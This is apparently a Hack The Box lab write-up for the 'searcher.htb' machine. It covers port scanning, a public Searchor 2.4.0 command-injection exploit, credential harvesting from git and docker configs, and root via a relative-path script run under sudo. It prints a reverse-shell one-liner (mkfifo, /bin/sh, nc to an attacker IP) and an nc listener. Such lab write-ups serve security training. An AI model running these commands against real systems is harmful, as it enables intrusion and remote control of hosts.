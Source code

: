 ```yaml
---
title: HTB-Cap
date: 18-08-2025 01:30:00
categories:
  - Writeups
  - HTB
tags:
  - Enumeration
  - git
  - python
  - docker
---
```

Target - 10.129.228.217

Do nmap on target with  - nmap -F {target} to see open ports.

![](https://cdn.vkie.pro/Pasted%20image%2020250819010641.png)

As seen in nmap results, we can see ssh and 80 port is open, when we navigate to 80, we found the url changed to searcher.htb

![](https://cdn.vkie.pro/Pasted%20image%2020250819010724.png)

so lets try adding into /etc/hosts file.

As soon as we added the IP and hostname in hosts file, refresh the browser and we got page as below

![](https://cdn.vkie.pro/Pasted%20image%2020250819011005.png)

as seen in footer, it says "Powered by Flask and searchor 2.4.0"

so google like " Searchor 2.4.0 poc", and i got this [link](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

As per the instructions given, follow the steps and u will get shell

![](https://cdn.vkie.pro/Pasted%20image%2020250819021759.png)
![](https://cdn.vkie.pro/Pasted%20image%2020250819021915.png)
![](https://cdn.vkie.pro/Pasted%20image%2020250819022024.png)

Enumerate the folders which we landed at first

![](https://cdn.vkie.pro/Pasted%20image%2020250819022056.png)

As noticed git folder exists in /var/www/app/, check for git configs files

![](https://cdn.vkie.pro/Pasted%20image%2020250819022139.png)

cd to ".git" folder and read "config" file

![](https://cdn.vkie.pro/Pasted%20image%2020250819022358.png)

so once again add this host in /etc/hosts file to access the url

visit "gitea.searcher.htb" and login with user "cody" and respective password.

explore the repos, we noticed administrator user exists, and his repos are private.

Also try login SSH tried login svc user with password found above, and it worked

for to privesc type sudo -l to check possiblities

![](https://cdn.vkie.pro/Pasted%20image%2020250819024015.png)

as shown above screenshot user can run those commands

![](https://cdn.vkie.pro/Pasted%20image%2020250819024123.png)

try docker-ps, docker-inspect, full-checkup

![](https://cdn.vkie.pro/Pasted%20image%2020250819024207.png)

output will be json so pipe it to the tool jq for easy reading


![](https://cdn.vkie.pro/Pasted%20image%2020250819024340.png)

from the output, we can see the creds are in env variables

try login gitea again with administrator username and with this password we got, check the private repos.

![](https://cdn.vkie.pro/Pasted%20image%2020250819025712.png)

upon checking the codes, we can see full-checkup runs full-checkup.sh, basically, The `system-checkup.py` script allows actions like `docker-ps`, `docker-inspect`, and `full-checkup`.

When the **`full-checkup` action** is triggered, the script runs a shell script called **`full-checkup.sh`**. 

Importantly, the script calls `full-checkup.sh` via a **relative path** (`./full-checkup.sh`) instead of an absolute one (e.g., `/opt/scripts/full-checkup.sh`). This means that if we place a malicious `full-checkup.sh` in any directory we can write to, and then run `system-checkup.py` from that directory, the script will execute **our malicious version** instead of the intended one — effectively giving us code execution with the same privileges the script runs under (in this case, root).

```bash
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [your ip] 9001 >/tmp/f" > /tmp/full-checkup.sh
```

run this to create our custom "full-checkup.sh" in tmp directory

listen using below command

```bash
nc -nvlp 9001
```

run "chmod +x" to make our sh script executable

now run the system-checkup command as we got output from sudo -l

cd to tmp directory and run this below

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Thats it we got root shell as shown in below screenshot

![](https://cdn.vkie.pro/Pasted%20image%2020250819031013.png)


Thanks for the time, See you in next post!!
